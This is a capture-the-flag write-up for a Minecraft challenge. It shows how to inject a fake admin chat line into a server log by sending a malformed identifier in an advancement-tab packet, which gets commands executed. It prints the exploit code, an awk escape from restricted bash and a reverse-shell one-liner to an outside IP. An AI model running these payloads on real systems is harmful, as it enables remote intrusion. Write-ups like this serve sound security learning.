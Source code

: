 # Untitled Minecraft Challenge
The challenge provides us with a snippet of a bash script running on the server
```
    tail --follow /app/logs/latest.log --retry 2>/dev/null | { 
        while read line; do
            echo $line | grep -P --color=none "^\[\d+:\d+:\d+ INFO\]: <RACTFAdmin> \!exec" | cut -d'!' -f2 | cut -d' ' -f2- | bash --restricted &
        done
        }
```
this is tailing a log file and looking for chat messages from the user `RACTFAdmin` starting with !exec and then running the command in a restricted bash shell.
The server is in offline mode, however if we try to login as the user RACTFAdmin, we find that the user is banned. Somehow, we need to get a line in the logs that makes it look like RACTFAdmin sent a chat message.

Logging on to the server we notice that join, leave, death and chat messages are disabled. The only way you can legitimately get text into the console is through running commands, however that has line breaks stripped so even executing a command like `/\n[00:00:00 INFO]: <RACTFAdmin> !exec ls`, the regex will not match it. Unless there's an unintended solution, there is no way with a vanilla client to get text into the console.

So we need to find another way to put text into console, the minecraft protocol is documented at https://wiki.vg/Protocol. Out of the list of data types, the only ones that are encoded as a string are String, Chat and Identifier, maybe some of the others like NBT could be worth looking at, but its easier to focus on these 3. An Identifier is a string of the form "namespace:thing", the namespace must meet the regex `[a-z0-9_-]*`, wiki.vg says the name itself can contain more symbols but not which symbols they are.

The packets that use these datatypes are:
 - Login start
 - Chat
 - Client settings
 - Tab complete
 - Plugin Message
 - Name item
 - Advancement tab
 - Update command block
 - Update command block minecart
 - Update jigsaw block
 - Update structure block
 - Update sign

We can immediately rule out all the "update x" packets, all of them require permissions we don't have, and sign requires signs we don't have. Login start has a string we can arbitrarily control and it will print to console, however 16 characters isn't enough to create the chat message. Chat is disabled so we can rule out that packet. Client settings is also limited to 16, so even if it did print to console, it isn't enough. The name item packet (probably) requires an anvil to not be ignored. This leaves us with Plugin message and Advancement tab, both of which use the identifier class.

The code snippets will all be written in the context of a fabric mod using yarn mappings 1.17.1+build.31. This could also be done with a protocol library for another language, probably more easily. Both packets use an identifier field, custom payload is more awkward to send(and doesn't work as well, unsure why), so I'm going to use the advancement packet.

If we send a normal advancement tab packet
```
MinecraftClient.getInstance().player.networkHandler.sendPacket(new AdvancementTabC2SPacket(AdvancementTabC2SPacket.Action.OPENED_TAB, new Identifier("minecraft:abc")));
```
nothing happens, there's no output in console, and our client doesn't get anything. Wiki.vg says the identifier namespace must be in the form `[a-z0-9_-]*`, so lets send one that isn't.
```
MinecraftClient.getInstance().player.networkHandler.sendPacket(new AdvancementTabC2SPacket(AdvancementTabC2SPacket.Action.OPENED_TAB, new Identifier("ABC:abc")));
```
And we get a stacktrace on the client, `net.minecraft.util.InvalidIdentifierException: Non [a-z0-9_.-] character in namespace of location: ABC:abc`. This is annoying because it means we can't send malformed identifiers without a bit more work, however the server's version of the Identifier class is the same, and this prints our string to console. Decompiling the Identifier class shows why this happens
```
    protected Identifier(String[] id) {
        this.namespace = StringUtils.isEmpty(id[0]) ? "minecraft" : id[0];
        this.path = id[1];
        if (!isNamespaceValid(this.namespace)) {
            throw new InvalidIdentifierException("Non [a-z0-9_.-] character in namespace of location: " + this.namespace + ":" + this.path);
        } else if (!isPathValid(this.path)) {
            throw new InvalidIdentifierException("Non [a-z0-9/._-] character in path of location: " + this.namespace + ":" + this.path);
        }
    }

    private static boolean isPathValid(String path) {
        for(int i = 0; i < path.length(); ++i) {
            if (!isPathCharacterValid(path.charAt(i))) {
                return false;
            }
        }

        return true;
    }

    private static boolean isNamespaceValid(String namespace) {
        for(int i = 0; i < namespace.length(); ++i) {
            if (!isNamespaceCharacterValid(namespace.charAt(i))) {
                return false;
            }
        }

        return true;
    }

    public static boolean isPathCharacterValid(char character) {
        return character == '_' || character == '-' || character >= 'a' && character <= 'z' || character >= '0' && character <= '9' || character == '/' || character == '.';
    }

    private static boolean isNamespaceCharacterValid(char character) {
        return character == '_' || character == '-' || character >= 'a' && character <= 'z' || character >= '0' && character <= '9' || character == '.';
    }
```
This code seems to slightly disagree with what wiki.vg says about what is valid, but the most important part is that the string is concatenated into the exception as is, nothing is stripped like is the norm with chat messages and commands. If you're using a protocol library, you might not have this check at all and you might be able to just send a malformed Identifier, but I'm using a fabric mod so I'm going to have to do a bit more work. The only thing blocking us sending it is the constructor throwing exceptions when it is made. We can't avoid calling the constructor if we're sending an identifier, but we can just override the toString method, which is what the client calls to send it, with something like this.
```
    static class CustomIdentifier extends Identifier {

        private String message;

        protected CustomIdentifier(String[] id) {
            super(id);
        }

        public CustomIdentifier(String id) {
            super("");
            this.message = id;
        }

        public CustomIdentifier(String namespace, String path) {
            super(namespace, path);
        }

        @Override
        public String toString() {
            return this.message;
        }

    }
```
Then we can start writing to the server's log, Identifiers can be up to 32kb for some reason, so we have plenty of text to create the chat message.
```
new AdvancementTabC2SPacket(AdvancementTabC2SPacket.Action.OPENED_TAB, new CustomIdentifier("\n[20:00:36 INFO]: <RACTFAdmin> !exec ls"));
```
If you send this packet to a local test server running the bash script, it lists files, so now we just need to find the flag on the remote server. We don't know what the remote server is running, we can't see the logs and we don't know where the flag is, so we'll get a shell with some common stuff it probably has. The shell executing our commands is also restricted, this isn't too big of a deal, just need to wrap the command in something to escape it. I used `bash -i >& /dev/tcp/192.168.86.80/4444 0>&1` to get a shell and wrapped it in awk to escape restricted mode. The final code looked like
```
MinecraftClient.getInstance().player.networkHandler.sendPacket(new AdvancementTabC2SPacket(AdvancementTabC2SPacket.Action.OPENED_TAB, new CustomIdentifier("\n[20:00:36 INFO]: <RACTFAdmin> !exec awk 'BEGIN {system(\"bash -i >& /dev/tcp/192.168.86.80/4444 0>&1\")}'")));
```
Now we just send this packet to the server and get a shell.
```
bash-4.4$ ls /
app bin boot dev etc flag.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
bash-4.4$ cat /flag.txt
ractf{DiggyDiggyHole}
```